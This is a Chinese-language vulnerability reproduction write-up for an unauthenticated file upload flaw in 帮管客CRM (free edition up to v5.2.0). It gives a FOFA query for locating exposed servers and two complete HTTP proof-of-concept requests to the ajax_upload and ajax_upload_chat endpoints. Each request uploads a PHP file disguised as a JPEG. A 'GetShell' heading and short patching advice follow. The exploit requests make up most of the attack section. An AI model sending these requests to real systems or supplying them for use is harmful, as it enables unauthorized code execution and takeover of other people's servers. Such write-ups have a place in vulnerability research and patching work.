

# 帮管客CRM 文件上传漏洞复现

### 0x01 产品简介

  帮管客CRM是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客[CRM客户管理系统](https://so.csdn.net/so/search?q=CRM%E5%AE%A2%E6%88%B7%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化[数据分析](https://www.pc6.com/pc/shujufenxiruanjian/ "数据分析")帮管客颠覆传统，重新定义企业管理系统。

### 0x02 漏洞概述

 帮管客CRM ajax\_upload\_chat、ajax\_upload等接口处存在文件上传漏洞，未经授权的攻击者可利用该漏洞获取服务器权限。

### 0x03 影响范围

 帮管客CRM客户管理系统免费版 <= v5.2.0

### 0x04 复现环境 

FOFA：app="帮管客-CRM"



### 0x05 漏洞复现 

**PoC-1**

```cobol
POST /index.php/upload/ajax_upload HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv1WbOn5o

------WebKitFormBoundaryv1WbOn5o
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo();unlink(__FILE__);
------WebKitFormBoundaryv1WbOn5o--
```

 回显了上传路径

 **PoC-2**

```cobol
POST /index.php/upload/ajax_upload_chat?type=image HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv1WbOn5o

------WebKitFormBoundaryv1WbOn5o
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo();unlink(__FILE__);
------WebKitFormBoundaryv1WbOn5o--
```

 验证


**GetShell**


### 0x06 修复建议

关闭互联网暴露面或接口设置访问权限

升级至安全版本
